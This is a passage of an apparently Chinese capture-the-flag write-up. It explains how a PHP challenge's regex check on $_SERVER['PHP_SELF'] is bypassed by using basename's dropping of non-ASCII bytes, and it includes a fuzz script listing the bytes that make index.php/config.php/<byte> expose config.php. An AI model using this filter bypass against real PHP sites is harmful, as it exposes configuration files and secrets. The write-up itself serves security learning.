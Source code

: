 ```php
}
?>
```

直接给出了源码，开始想着是绕过这个**hash_eauals**，但是很像没啥办法
于是就只能看这个正则

`/config\.php\/*$/`
最后面是 *$ 意思就是只能以**config.php**结尾
再来看看**basename**

> **basename**
>
> basename — 返回路径中的文件名部分(会去掉文件名中的非ASCII值)
>
> ```php
> <?php
> echo "1) ".basename("/etc/sudoers.d", ".d").PHP_EOL;
> echo "2) ".basename("/etc/sudoers.d").PHP_EOL;
> echo "3) ".basename("/etc/passwd").PHP_EOL;
> echo "4) ".basename("/etc/").PHP_EOL;
> echo "5) ".basename(".").PHP_EOL;
> echo "6) ".basename("/");
> ?> 
> 输出
> 1) sudoers
> 2) sudoers.d
> 3) passwd
> 4) etc
> 5) .
> 6) 
> ```

也就是说，如果我的`$_SERVER['PHP_SELF']`是`index.php/config.php`经过**basename**之后就是`config.php`，而且必须要是config.php你才能读到flag
但你注意，正则匹配匹配的是`$_SERVER['PHP_SELF']`，也就是说，如果**basename**有漏洞的话，就可以绕过
稍微fuzz一下

```php
<?php
for ($i=80; $i < 255; $i++) {
    $filename='config.php/'.chr($i);
    if (!preg_match('/config\.php\/*$/i', $filename)){
        if(basename($filename)=='config.php'){
            echo dechex($i).'&nbsp;&nbsp;';
        }
    }
}
5c  81  82  83  84  85  86  87  88  89  8a  8b  8c  8d  8e  8f  90  91  92  93  94  95  96  97  98  99  9a  9b  9c  9d  9e  9f  a0  a1  a2  a3  a4  a5  a6  a7  a8  a9  aa  ab  ac  ad  ae  af  b0  b1  b2  b3  b4  b5  b6  b7  b8  b9  ba  bb  bc  bd  be  bf  c0  c1  c2  c3  c4  c5  c6  c7  c8  c9  ca  cb  cc  cd  ce  cf  d0  d1  d2  d3  d4  d5  d6  d7  d8  d9  da  db  dc  dd  de  df  e0  e1  e2  e3  e4  e5  e6  e7  e8  e9  ea  eb  ec  ed  ee  ef  f0  f1  f2  f3  f4  f5  f6  f7  f8  f9  fa  fb  fc  fd  fe  
```

